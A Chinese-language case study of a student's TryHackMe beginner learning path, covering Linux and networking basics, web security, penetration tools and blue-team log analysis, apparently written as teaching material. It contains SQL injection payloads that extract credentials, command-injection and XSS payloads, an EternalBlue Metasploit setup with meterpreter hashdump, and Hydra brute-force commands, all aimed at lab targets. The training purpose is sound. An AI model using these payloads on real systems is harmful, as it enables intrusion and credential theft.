





## 案例一：TryHackMe入门学习路径实践

### 一、案例背景与学习者画像

#### 1.1 学习者基本情况

小明是一名计算机专业的大三学生，具备以下基础条件：

| 维度 | 具体情况 |
|------|----------|
| 专业背景 | 计算机科学与技术，已修完计算机网络、操作系统课程 |
| 编程能力 | 掌握Python基础语法，能写简单脚本 |
| Linux经验 | 仅限课堂实验，未在日常中使用 |
| 安全知识 | 零基础，仅听说过"黑客"概念 |
| 学习时间 | 每天2-3小时，周末可投入5-6小时 |
| 学习目标 | 4个月内建立网络安全实战能力，参加CTF校赛 |

#### 1.2 为什么选择TryHackMe

在众多网络安全学习平台中，小明最终选择了TryHackMe，原因如下：

- **引导式学习路径**：平台提供从零到一的完整路径，不需要自己规划学什么
- **浏览器内置攻击机**：无需本地搭建虚拟机环境，降低入门门槛
- **理论+实践结合**：每个房间先教概念再动手，符合认知规律
- **社区与进度追踪**：排行榜和讨论区提供学习动力
- **成本可控**：免费房间足够入门，Premium每月约$14（学生折扣）

与其他平台的对比：

| 平台 | 适合阶段 | 优势 | 劣势 |
|------|----------|------|------|
| **TryHackMe** | 入门→中级 | 引导式路径、内置环境、教学友好 | 高级内容偏少 |
| **Hack The Box** | 中级→高级 | 真实靶机、难度高、贴近实战 | 对新手不友好 |
| **PicoCTF** | 入门 | CTF题目设计精良、免费 | 不是系统学习路径 |
| **VulnHub** | 中级 | 本地离线练习、完全免费 | 需自行搭建环境 |
| **OverTheWire** | 入门→中级 | 经典Wargames、纯终端 | 仅限Linux/网络 |

#### 1.3 学习路径总体规划

小明选择的核心学习路径为 **"Complete Beginner Path"**，辅以 **"Pre-Security Path"** 作为前置补充，总计约80个房间，预计8-12周完成。



---

### 二、第一阶段：计算机基础补强（第1-2周）

#### 2.1 Linux基础——从命令行恐惧到熟练操作

**目标房间**：Linux Fundamentals Part 1 / Part 2 / Part 3

这三个房间构成了TryHackMe最经典的Linux入门系列，总计约40个任务点。

**Part 1 核心知识点与实操**：

文件系统导航是所有操作的基础，小明需要在攻击机终端中反复练习：

```bash
# 文件系统导航——最基本的操作
pwd                          # 显示当前工作目录
ls -la                       # 列出所有文件（含隐藏文件），-l显示详细信息
cd /etc                      # 切换到绝对路径
cd ../                       # 返回上一级目录
cd ~                         # 回到家目录

# 文件查看与编辑
cat /etc/passwd              # 查看用户信息文件
head -n 5 /etc/passwd        # 只看前5行
tail -n 10 /var/log/auth.log # 查看日志最后10行
nano hello.txt               # 用nano编辑器创建/编辑文件

# 文件操作
touch newfile.txt            # 创建空文件
cp file.txt backup.txt       # 复制文件
mv old.txt new.txt           # 重命名/移动文件
rm unwanted.txt              # 删除文件（不可恢复！）
mkdir projects               # 创建目录
rm -rf old_directory/        # 递归删除目录（危险命令，慎用）
```

**文件权限理解——安全从业者的必修课**：

```bash
# 查看文件权限
ls -la /etc/shadow
# 输出示例: -rw-r----- 1 root shadow 1234 Jun 26 10:00 /etc/shadow
# 解读: 所有者(root)可读写，组(shadow)可读，其他用户无权限

# 修改权限——数字模式
chmod 755 script.sh          # rwxr-xr-x（所有者全权限，其他人可读可执行）
chmod 600 secret.key         # rw-------（仅所有者可读写，最严格的常用权限）
chmod 644 index.html         # rw-r--r--（标准Web文件权限）

# 修改权限——符号模式
chmod +x exploit.py          # 添加执行权限
chmod u+w,g-w file.txt       # 给所有者加写权限，去掉组的写权限

# 修改所有者
chown user:group file.txt    # 同时修改所有者和所属组
```

**Part 2 进阶内容——文本处理三剑客**：

```bash
# grep——文本搜索利器
cat /etc/passwd | grep "bash"           # 找出使用bash的用户
grep -r "password" /var/www/            # 递归搜索目录中的敏感信息
grep -i "error" /var/log/syslog         # 忽略大小写搜索错误日志
grep -n "root" /etc/passwd              # 显示匹配行的行号

# find——文件查找
find / -name "*.conf" 2>/dev/null       # 查找所有.conf配置文件
find / -perm -4000 2>/dev/null          # 查找SUID文件（提权关键！）
find / -writable -type f 2>/dev/null    # 查找所有可写文件
find /home -name "id_rsa"               # 查找SSH私钥（渗透中的关键发现）

# 管道与重定向——组合命令的核心
cat access.log | grep "404" | wc -l     # 统计404错误数量
ls -la /etc/ | grep "conf" > configs.txt # 结果保存到文件
echo "test" >> notes.txt                # 追加到文件末尾
cat file.txt | sort | uniq -c | sort -rn # 排序去重统计
```

**Part 3 系统管理——理解Linux运行机制**：

```bash
# 进程管理
ps aux                          # 查看所有进程
ps aux | grep nginx             # 查找特定进程
top                             # 实时查看系统资源占用
kill -9 <PID>                   # 强制终止进程
killall java                    # 按名称终止所有同名进程

# 服务管理（systemd）
systemctl status sshd           # 查看SSH服务状态
systemctl start nginx           # 启动nginx
systemctl enable nginx          # 设置开机自启
systemctl stop firewalld        # 停止防火墙（测试环境使用）

# 计划任务——理解持久化机制
crontab -l                      # 查看当前用户的计划任务
crontab -e                      # 编辑计划任务
# 格式: 分 时 日 月 周 命令
# 例: 0 2 * * * /opt/backup.sh  每天凌晨2点执行备份脚本

# 网络配置基础
ifconfig                        # 查看网络接口信息（旧命令）
ip addr                         # 查看IP地址（新命令）
netstat -tlnp                   # 查看监听端口
curl http://localhost:8080       # 测试HTTP服务
```

**小明的学习策略**：每个命令至少手动执行3遍，记录在自己的笔记中。遇到不理解的参数，使用 `man <command>` 或 `command --help` 查阅手册。

#### 2.2 网络基础——理解通信的本质

**目标房间**：Networking Fundamentals / Introductory Networking

**TCP/IP协议栈核心知识**：



**TCP三次握手与四次挥手——理解连接的生命周期**：

```text
三次握手（建立连接）:
客户端 → SYN(seq=x) → 服务器
客户端 ← SYN+ACK(seq=y,ack=x+1) ← 服务器
客户端 → ACK(ack=y+1) → 服务器

四次挥手（断开连接）:
客户端 → FIN → 服务器
客户端 ← ACK ← 服务器
客户端 ← FIN ← 服务器
客户端 → ACK → 服务器
```

**Nmap实战——渗透测试的第一把钥匙**：

```bash
# 基础扫描——目标信息收集的起点
nmap 10.10.10.1                # 最简单的主机发现+端口扫描
nmap -sV 10.10.10.1            # 检测服务版本（-sV: Version detection）
nmap -sC 10.10.10.1            # 运行默认脚本（-sC: Default scripts）
nmap -A 10.10.10.1             # 全面扫描（OS检测+版本+脚本+traceroute）

# 端口范围控制
nmap -p 80,443 10.10.10.1      # 只扫描指定端口
nmap -p 1-1000 10.10.10.1      # 扫描1-1000端口
nmap -p- 10.10.10.1            # 扫描全部65535端口（耗时较长）

# 常用扫描类型
nmap -sS 10.10.10.1            # SYN半开扫描（默认，需root权限，速度快）
nmap -sT 10.10.10.1            # TCP全连接扫描（不需要root，但会被记录）
nmap -sU 10.10.10.1            # UDP扫描（慢，但发现SNMP/DNS等UDP服务）

# 输出格式
nmap -oN result.txt 10.10.10.1 # 保存为普通文本
nmap -oX result.xml 10.10.10.1 # 保存为XML（可导入其他工具）
nmap -oA result 10.10.10.1     # 同时保存三种格式

# 实战组合——TryHackMe房间中的典型用法
nmap -sV -sC -p- -T4 10.10.10.1
# 解释: 检测版本 + 默认脚本 + 全端口 + 加速模式（T4）
```

**DNS基础——域名背后的世界**：

```bash
# DNS查询工具
nslookup example.com                    # 基础域名解析
dig example.com                         # 详细DNS信息
dig example.com ANY                     # 查询所有记录类型
dig @8.8.8.8 example.com                # 指定DNS服务器查询

# 常见DNS记录类型
# A     → IPv4地址
# AAAA  → IPv6地址
# CNAME → 别名记录
# MX    → 邮件服务器
# TXT   → 文本记录（常用于验证和SPF）
# NS    → 域名服务器

# 子域名枚举（渗透测试常用）
dig example.com TXT                      # 查找SPF记录中的子域信息
```

---

### 三、第二阶段：Web安全核心能力（第3-5周）

#### 3.1 HTTP协议深入理解

**目标房间**：How The Web Works / HTTP Protocol

在进行Web渗透之前，必须理解HTTP协议的每一个细节：

```http
# HTTP请求结构
POST /login HTTP/1.1
Host: target.thm
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123
Content-Length: 33

username=admin&password=pass123

# HTTP响应结构
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: session=xyz789
X-Powered-By: PHP/7.4

<!DOCTYPE html>
<html>...
```

**状态码速查表——快速判断响应含义**：

| 状态码 | 含义 | 渗透测试中的意义 |
|--------|------|------------------|
| 200 OK | 请求成功 | 正常访问 |
| 301/302 | 重定向 | 可能存在认证跳转 |
| 403 Forbidden | 禁止访问 | 目录或文件存在但无权限，值得尝试绕过 |
| 404 Not Found | 未找到 | 文件可能不存在，也可能被隐藏 |
| 500 Internal Error | 服务器错误 | 输入触发了服务器端异常，可能存在注入点 |
| 401 Unauthorized | 未授权 | 需要认证，是暴力破解的目标 |

#### 3.2 Burp Suite——Web渗透的核心武器

**目标房间**：Burp Suite Basics / Burp Suite: Repeater / Burp Suite: Intruder

Burp Suite是每个Web渗透测试人员的必备工具，小明需要掌握的核心功能：

**Proxy代理设置**：

```text
1. 浏览器设置代理 → 127.0.0.1:8080
2. Burp Suite → Proxy → Options → 确认监听 127.0.0.1:8080
3. 访问目标网站，请求自动被Burp拦截
4. 在Intercept选项卡查看/修改请求
5. 点击Forward放行请求，Drop丢弃请求
```

**Repeater手动重放——漏洞验证的利器**：

```text
使用场景：手动测试SQL注入、XSS、权限绕过等

操作流程：
1. 在Proxy中拦截请求 → 右键 → Send to Repeater
2. 在Repeater中修改请求参数
3. 点击Send发送修改后的请求
4. 分析Response，观察服务器对不同输入的反应
5. 反复调整payload，确认漏洞存在
```

**实际测试案例——SQL注入验证**：

```yaml
原始请求：
GET /profile?id=5 HTTP/1.1
Host: target.thm

修改为（注入单引号测试）：
GET /profile?id=5' HTTP/1.1
Host: target.thm

如果返回 SQL error 或 500 错误，说明可能存在SQL注入

进一步验证（布尔盲注）：
GET /profile?id=5' AND 1=1-- - HTTP/1.1  → 正常返回
GET /profile?id=5' AND 1=2-- - HTTP/1.1  → 异常返回
→ 确认存在数值型SQL注入
```

**Intruder自动化爆破——高效破解凭据**：

```text
使用场景：暴力破解登录、目录枚举、参数 fuzzing

攻击模式选择：
- Sniper：单参数逐一替换（最常用）
- Battering Ram：所有位置使用相同payload
- Pitchfork：多参数一一对应
- Cluster Bomb：多参数全排列组合（用于用户名+密码组合）

实战操作——爆破登录表单：
1. 拦截登录请求 → Send to Intruder
2. 在username和password字段添加 § 标记
3. 选择Cluster Bomb模式
4. 设置Payload Set 1（用户名）：admin, root, test
5. 设置Payload Set 2（密码）：admin, password, 123456, admin123
6. 设置Grep Match：添加"Welcome"或"Dashboard"作为成功标志
7. Start Attack → 根据响应长度或匹配结果判断成功的组合
```

#### 3.3 OWASP Top 10——必须掌握的十大漏洞

**目标房间**：OWASP Top 10系列房间



**SQL注入——最经典也最危险的漏洞**：

```sql
-- 原始查询
SELECT * FROM users WHERE username='input' AND password='input'

-- 联合查询注入（UNION-based）
' UNION SELECT 1,2,3-- -
-- 目的：确定回显位置

' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()-- -
-- 目的：获取所有表名

' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users'-- -
-- 目的：获取users表的列名

' UNION SELECT 1,group_concat(username,0x3a,password),3 FROM users-- -
-- 目的：提取用户名和密码
```

**跨站脚本攻击（XSS）——前端信任的代价**：

```html
<!-- 反射型XSS测试payload -->
<script>alert('XSS')</script>

<svg onload=alert('XSS')>

<!-- 存储型XSS——持久化攻击 -->
<!-- 将上述payload提交到评论区、个人资料等可存储位置 -->

<!-- DOM型XSS——客户端脚本漏洞 -->
<!-- 在URL参数中注入payload，被前端JavaScript处理后执行 -->
```

**命令注入——服务器权限的直接获取**：

```bash
# 原始命令（假设服务器端执行）
ping -c 1 127.0.0.1

# 命令注入payload
127.0.0.1; cat /etc/passwd        # 分号分隔，执行额外命令
127.0.0.1 | cat /etc/passwd       # 管道符连接
127.0.0.1 $(cat /etc/passwd)      # 命令替换
`cat /etc/passwd`                 # 反引号命令替换

# 绕过空格过滤
cat${IFS}/etc/passwd              # 使用内部字段分隔符
cat${IFS}/etc/passwd              # 使用$IFS
{cat,/etc/passwd}                 # 使用花括号
```

#### 3.4 漏洞利用实战

**目标房间**：Mr. Robot / Kenobi / Basic Pentesting

以 **Mr. Robot** 房间为例，完整渗透流程演示：

```bash
Phase 1: 信息收集
$ nmap -sV -sC 10.10.x.x
→ 发现端口: 80(Apache), 443(HTTPS)

Phase 2: Web侦察
$ dirb http://10.10.x.x
→ 发现: /robots.txt, /wp-login.php, /readme.html

$ cat robots.txt
→ 找到两个字典文件: fsocity.dic, key-1-of-3.txt
→ 第一个flag获取: key-1-of-3.txt

Phase 3: 暴力破解
→ 使用fsocity.dic作为字典
→ 对WordPress登录页面进行爆破
→ 获得凭据: elliot/ER28-0652

Phase 4: 获取Shell
→ 登录WordPress后台
→ 修改Appearance → Editor → 404.php
→ 插入PHP反弹shell代码
→ 访问修改后的404页面触发反弹shell

Phase 5: 提权
→ 在系统中发现/etc/密码文件
→ 使用SUID二进制文件或内核漏洞提权
→ 获得root权限，获取最终flag
```

---

### 四、第三阶段：渗透工具链构建（第5-7周）

#### 4.1 Metasploit Framework——渗透测试的瑞士军刀

**目标房间**：Metasploit Introduction / Metasploit: Exploitation

```bash
# 启动msfconsole
msfconsole

# 基本工作流程
msf6> search eternalblue              # 搜索漏洞利用模块
msf6> use exploit/windows/smb/ms17_010_eternalblue  # 选择模块
msf6> show options                    # 查看需要设置的参数
msf6> set RHOSTS 10.10.10.1          # 设置目标IP
msf6> set LHOST 10.10.10.2           # 设置监听IP（攻击机）
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp  # 设置payload
msf6> exploit                         # 执行攻击

# Meterpreter后渗透操作
meterpreter> sysinfo                  # 查看系统信息
meterpreter> getuid                   # 查看当前用户
meterpreter> hashdump                 # 导出密码哈希
meterpreter> shell                    # 获取系统shell
meterpreter> upload local.txt /tmp/   # 上传文件
meterpreter> download /etc/passwd .   # 下载文件
```

#### 4.2 Hydra——在线暴力破解利器

**目标房间**：Hydra

```bash
# SSH暴力破解
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.1

# 参数解释：
# -l admin      : 指定用户名
# -P rockyou.txt: 指定密码字典
# ssh://...     : 目标协议和地址

# HTTP POST表单爆破
hydra -l admin -P passwords.txt 10.10.10.1 http-post-form \
  "/login:username=^USER^&password=^PASS^:Login Failed"
# 格式: "/路径:POST参数:失败标识字符串"

# FTP暴力破解
hydra -l root -P passwords.txt ftp://10.10.10.1

# 指定并发数和超时
hydra -l admin -P passwords.txt -t 4 -vV ssh://10.10.10.1
# -t 4 : 4个并行线程
# -vV  : 详细输出，实时显示尝试的用户名/密码
```

#### 4.3 目录枚举与模糊测试

**目标房间**：Content Discovery / Introductory Networking

```bash
# Gobuster——目录/子域名/虚拟主机枚举
gobuster dir -u http://10.10.10.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 参数说明：
# -u 目标URL
# -w 字典文件
# -x php,txt,html    添加文件扩展名
# -t 50              50个并发线程
# -s 200,301,302     只显示指定状态码

# 实战示例——带扩展名枚举
gobuster dir -u http://10.10.10.1 \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html,txt,bak \
  -t 30

# 子域名枚举
gobuster dns -d target.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt

# FFuF——更快的模糊测试
ffuf -u http://10.10.10.1/FUZZ -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://10.10.10.1/login -X POST \
  -d "username=admin&password=FUZZ" \
  -w passwords.txt \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fc 401
# -fc 401 : 过滤掉401响应（排除失败的尝试）
```

#### 4.4 信息收集与侦察工具集

```bash
# Sublist3r——子域名枚举
sublist3r -d target.com

# theHarvester——邮箱和子域名收集
theHarvester -d target.com -b google,linkedin,github

# Nikto——Web服务器漏洞扫描
nikto -h http://10.10.10.1

# WhatWeb——识别Web技术栈
whatweb http://10.10.10.1

# Wappalyzer——浏览器插件，识别网站使用的技术
# 在浏览器中安装Wappalyzer插件即可使用

# 操作系统指纹识别
nmap -O 10.10.10.1
xprobe2 10.10.10.1
```

---

### 五、第四阶段：防御视角与蓝队基础（第7-9周）

#### 5.1 安全防御——从攻击者视角理解防御

**目标房间**：Blue / Cyber Defense Fundamentals

渗透测试的目的不仅是攻击，更重要的是理解攻击以建立防御。小明同步学习了蓝队基础：

```bash
# 日志分析——发现入侵痕迹
grep "Failed password" /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -rn
# 统计哪些IP地址在暴力破解SSH

grep "POST" /var/log/apache2/access.log | grep " 200 " | sort | uniq -c | sort -rn | head -20
# 找出最活跃的POST请求（可能的攻击流量）

# 网络流量分析
tcpdump -i eth0 port 80 -w capture.pcap   # 抓取HTTP流量
tshark -r capture.pcap -Y "http.request"  # 用tshark分析pcap文件

# 文件完整性监控
md5sum /etc/passwd > baseline.md5          # 建立基线
md5sum -c baseline.md5                     # 验证文件是否被篡改

# 入侵检测系统基础
# Snort/Suricata规则示例
alert tcp any any -> $HOME_NET 22 (msg:"SSH Brute Force"; \
  flags:S,12; threshold:type both, track by_src, count 10, seconds 60;)
```

#### 5.2 事件响应流程



---

### 六、学习成果与量化评估

#### 6.1 完成度统计

经过约9周（每周投入12-15小时）的系统学习，小明的成果如下：

| 维度 | 数量/指标 | 说明 |
|------|-----------|------|
| 完成房间数 | 45个 | 含8个挑战房间（Challenge） |
| 获得积分 | 约5,000 THM | 排名进入前30% |
| 掌握工具 | 12+ | Nmap/Burp/Metasploit/Hydra/Gobuster等 |
| 独立解题 | 15个 | 不看提示独立完成的房间 |
| 证书获取 | Complete Beginner Path Certificate | 平台官方认证 |
| 写笔记 | 20,000+ 字 | 每个房间的学习笔记 |

#### 6.2 能力矩阵变化

```mermaid
radar
    title 学习前后能力对比
    x1 Linux操作
    x2 网络理解
    x3 Web安全
    x4 工具使用
    x5 漏洞利用
    x6 防御思维
    "学习前" : [2, 3, 1, 0, 0, 1]
    "学习后" : [7, 7, 8, 7, 6, 5]
```

#### 6.3 典型能力达成示例

**学习前**：看到一个网站不知道从何下手
**学习后**：

```text
Step 1: Nmap扫描 → 发现开放端口和服务版本
Step 2: Gobuster目录枚举 → 发现隐藏页面和备份文件
Step 3: 浏览器+Burp Suite → 分析请求/响应，寻找注入点
Step 4: 手动测试漏洞 → SQL注入/XSS/命令注入
Step 5: 漏洞利用 → 获取webshell或反弹shell
Step 6: 后渗透 → 信息收集、提权、横向移动
Step 7: 撰写报告 → 记录漏洞详情和修复建议
```

---

### 七、常见误区与纠正

#### 7.1 初学者最常犯的错误

| 误区 | 问题 | 纠正方法 |
|------|------|----------|
| 跳过基础直接学渗透 | 没有Linux和网络基础，渗透学习效率极低 | 先完成Pre-Security Path |
| 只看提示不思考 | 过度依赖提示，没有真正理解原理 | 每个房间先独立尝试15分钟再看提示 |
| 不做笔记 | 学过的知识很快遗忘 | 每个房间写一页笔记，记录关键命令和思路 |
| 工具依赖症 | 记住工具操作但不理解背后的原理 | 每学一个工具先理解它的工作原理 |
| 追求数量不求质量 | 快速刷房间但不总结方法论 | 每完成一个房间写"如果下次遇到类似场景怎么做" |
| 忽略失败的尝试 | 只记录成功的payload，不记录试错过程 | 记录完整的测试过程，失败的尝试同样有价值 |
| 单打独斗 | 不看社区讨论，错过他人的解题思路 | 完成后查看讨论区，学习其他人的方法 |

#### 7.2 关键提醒

**不要把CTF技巧等同于实战能力**。TryHackMe是训练场，不是真实战场。实际渗透测试中：

- 需要客户授权和明确的测试范围
- 要避免对生产环境造成影响
- 需要编写专业的渗透测试报告
- 要遵守法律法规和职业道德

---

### 八、进阶路径推荐

#### 8.1 从TryHackMe毕业后去哪里



#### 8.2 持续学习资源

- **书籍**：《Hacking: The Art of Exploitation》《Web Application Hacker's Handbook》
- **博客**：HackTricks（渗透技巧百科）、PayloadsAllTheThings（payload集合）
- **工具文档**：OWASP Testing Guide、Nmap Official Documentation
- **社区**：Reddit r/netsec、SecLists GitHub仓库
- **认证路线图**：eJPT → OSCP → OSCE → OSEP（循序渐进的证书体系）

---

### 九、本案例核心总结

小明的TryHackMe学习之旅揭示了网络安全入门的关键规律：

1. **基础是一切的前提**：没有Linux和网络基础，渗透测试就是空中楼阁。花2-4周打好基础，后续学习效率提升3倍以上。
2. **理论与实践必须同步**：每学一个概念就立刻动手验证，"知道"和"会做"之间隔着无数次动手实践。
3. **工具是手段不是目的**：理解攻击原理比记住工具命令更重要。工具会更新换代，但漏洞原理（注入、越权、信息泄露）是永恒的。
4. **系统性学习优于碎片化**：跟随官方学习路径比东学一个西学一个效率高得多。完整走完一条路径，知识体系自然形成。
5. **记录与复盘是加速器**：每次学习后花10分钟记录关键收获，1个月后回头看笔记，会发现自己的成长远超预期。
6. **保持对防御的敬畏**：学会攻击是为了更好地防御。理解攻击者思维的最终目的是构建更安全的系统。
